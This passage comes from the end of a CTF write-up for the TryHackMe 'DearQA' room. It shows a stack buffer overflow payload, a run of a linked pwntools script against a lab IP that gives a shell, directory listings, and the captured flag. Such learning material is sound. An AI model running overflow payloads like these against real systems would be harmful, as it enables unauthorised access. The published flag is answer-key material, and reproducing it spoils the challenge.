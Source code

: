  Welcome dearQA
  I am sysadmin, i am new in developing
  What's your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB�@
  Congratulations!
  You have entered in the secret function!
  ```

- I wrote a script for getting the access to machine and read the flag. You can find the script [here](https://github.com/mauzware/Random-Scripts/blob/main/pwn-other/pwnscript.py).

  ```
  python3 pwnscript.py 
  [+] Opening connection to 10.10.195.46 on port 5700: Done
  [*] Switching to interactive mode
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86^F@^@^@^@^@^@
  Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x86\x06@
  Congratulations!
  You have entered in the secret function!
  bash: cannot set terminal process group (444): Inappropriate ioctl for device
  bash: no job control in this shell
  ctf@dearqa:/home/ctf$ $ ls -al
  ls -al
  total 40
  drwxr-xr-x 2 ctf  ctf  4096 Jul 24  2021 .
  drwxr-xr-x 3 root root 4096 Jul 24  2021 ..
  -rw------- 1 ctf  ctf   649 May 27 15:30 .bash_history
  -rw-r--r-- 1 ctf  ctf   220 Jul 24  2021 .bash_logout
  -rw-r--r-- 1 ctf  ctf  3515 Jul 24  2021 .bashrc
  -rw-r--r-- 1 ctf  ctf   675 Jul 24  2021 .profile
  -r-xr-xr-x 1 ctf  ctf  7712 Jul 24  2021 DearQA
  -rwx------ 1 root root  413 Jul 24  2021 dearqa.c
  -r--r--r-- 1 ctf  ctf    22 Jul 24  2021 flag.txt
  
  ctf@dearqa:/home/ctf$ $ cat flag.txt
  cat flag.txt
  THM{PWN_1S_V3RY_E4SY}
  ```

---

## 🏁 Flags

- **Flag**: `THM{PWN_1S_V3RY_E4SY}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Whole room.`

- What did I learn?
  `A lot about reverse engineering.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---

